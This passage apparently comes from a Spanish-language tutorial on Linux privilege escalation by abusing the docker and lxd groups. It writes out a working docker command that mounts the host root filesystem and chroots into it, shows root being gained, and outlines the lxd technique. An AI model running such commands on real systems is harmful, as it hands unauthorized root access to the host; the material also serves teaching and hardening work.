 ### Paso 1: Crear un contenedor con el sistema de archivos montado

```bash
docker run -it --rm -v /:/mnt --privileged ubuntu chroot /mnt
```

Este comando hace lo siguiente:

- Ejecuta un contenedor de Ubuntu (`docker run -it ubuntu`)
    
- Monta el sistema de archivos raíz `/` del host en `/mnt` dentro del contenedor (`-v /:/mnt`)
    
- Usa `chroot` para cambiar el entorno raíz al del host (`chroot /mnt`)
    
- Ejecuta el contenedor como root (`--privileged`)
    

### Paso 2: Confirmar acceso como root

Una vez dentro del contenedor, ejecutamos:

```bash
whoami
```

Resultado:

```
root
```

Hemos escalado privilegios a root en el host a través del contenedor.

---

## Otras variantes de ataque con grupos especiales

### Grupo `lxd`

Los usuarios del grupo `lxd` pueden importar imágenes de contenedores LXC. Una técnica común es:

1. Importar una imagen con un sistema básico (ej. Alpine)
    
2. Montar el sistema de archivos del host
    
3. Obtener una shell con permisos de root
    

Existen herramientas como `lxd-exploit.sh` que automatizan este proceso.


### Ejemplo práctico: Abusando del grupo `lxd` para escalar privilegios

---

#### ¿Qué es el grupo `lxd`?

El grupo `lxd` está asociado con el daemon de LXD, un sistema de gestión de contenedores basado en LXC. Si un usuario forma parte del grupo `lxd`, puede interactuar con la interfaz de LXD sin necesidad de privilegios de superusuario. Esta capacidad, aunque conveniente, puede ser peligrosa: un usuario no privilegiado puede obtener acceso root en el host si abusa de LXD de forma maliciosa.

---